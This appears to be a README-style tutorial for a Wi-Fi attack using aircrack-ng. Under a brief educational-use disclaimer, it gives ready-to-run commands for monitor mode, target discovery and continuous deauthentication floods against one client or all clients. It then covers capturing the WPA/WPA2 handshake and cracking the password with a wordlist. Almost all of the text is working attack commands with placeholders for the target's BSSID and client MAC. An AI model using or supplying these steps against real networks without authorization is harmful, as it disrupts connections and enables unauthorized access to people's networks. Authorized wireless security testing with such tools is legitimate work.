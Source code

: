 # Deauthentication Attack and Wi-Fi Password Cracking using aircrack-ng

## Disclaimer
**WARNING: Unauthorized access to computer networks is illegal and unethical. This guide is intended for educational purposes only and should only be used on networks for which you have explicit permission. Misuse of this information can lead to severe legal consequences.**

## Prerequisites
- A computer with a compatible wireless network adapter that supports monitor mode.
- `aircrack-ng` suite installed.
- Root or sudo access.

## Step 1: Install aircrack-ng
To install the `aircrack-ng` suite, use the following commands:

```bash
# Update package lists
sudo apt update

# Install aircrack-ng
sudo apt install aircrack-ng
```
##Step 2: Set Wireless Interface to Monitor Mode
Find your wireless interface name and set it to monitor mode.
# List network interfaces
sudo iwconfig

# Stop any process that could interfere with monitor mode
sudo airmon-ng check kill

# Start monitor mode on your wireless interface (e.g., wlan0)
sudo airmon-ng start wlan0

# Verify that the interface is now in monitor mode (e.g., wlan0mon)
sudo iwconfig

##Step 3: Capture Traffic with airodump-ng
# Start capturing packets on the monitor mode interface
sudo airodump-ng wlan0mon

# Note the BSSID (MAC address) and channel of the target network
##Step 4: Deauthentication Attack with aireplay-ng
Send deauthentication packets to disconnect clients from the target network, forcing them to reconnect and capture the handshake.

# Deauthenticate a specific client
sudo aireplay-ng --deauth 0 -a <BSSID> -c <Client_MAC> wlan0mon

# Deauthenticate all clients from the target network
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon

##Step 5: Capture the WPA/WPA2 Handshake
# Capture the handshake by specifying the BSSID and channel
sudo airodump-ng -c <Channel> --bssid <BSSID> -w capture wlan0mon

# Look for "WPA handshake" in the airodump-ng output

##Step 6: Crack the Password with aircrack-ng
# Run aircrack-ng with the captured handshake file and a wordlist
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap



